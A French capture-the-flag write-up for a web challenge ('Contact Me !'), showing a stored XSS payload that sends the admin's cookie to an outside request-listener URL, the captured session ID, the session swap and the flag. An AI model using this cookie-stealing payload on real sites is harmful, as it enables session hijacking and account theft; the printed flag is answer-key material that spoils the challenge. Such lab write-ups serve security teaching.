 <h1>Contact Me !</h1>

<h3>Description :</h3>
Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?
<br/>

<h3>Solution</h3>
Quand on voit le titre du challenge, on imagine assez facilement qu'il va falloir effectuer une attaque de type XSS pour pouvoir avoir accès à la page secrête.
En allant sur la page, elle revoie : <b>This page is PRIVATE!</b>

On essaye une attaque de base pour vérifier que les scripts sont exécutés par la page :
`<script>alert(1)</script>`

Le script fonctionne !
Pour accèder à la page secrète, il va sûrement falloir voler le cookie de l'administrateur.
Comme les scripts sont éxécutés par l'admin, si on écrit un payload pour renvoyer le cookie de la page, celui qui va être renvoyé le sien.

Payload : <br/>
`<script>document.write('<img src="https://hookb.in/9X1qnEMbdnI600eMoWM7?cookie='+document.cookie+'">I'm a cookie stealer :p</img>');</script>`

Ce script permet de dermander à l'administrateur de renvoyer le cookie à l'adresse `https://hookb.in/9X1qnEMbdnI600eMoWM7` qui est un écouteur de requêtes.

Après envoi du payload, on retrouve bien sur l'endpoint le cookie renvoyé par l'admin : <br/> 
`cookie: PHPSESSID=3f1f8431f0ed4202893dc4cb19a36021`

Au niveau du referer dans la requête c'est intéressant de voir cela : <br/>
`referer: http://localhost/index.php?botSenpai=sess_93db8da8292c8ce9bd44f193450eb8f2`

On peut maintenant essayer de se connecter à la page admin.php en changean notre cookie.

Et voilà le flag : `Hero{b3_c4r3ful_w1th_xss_!!}`
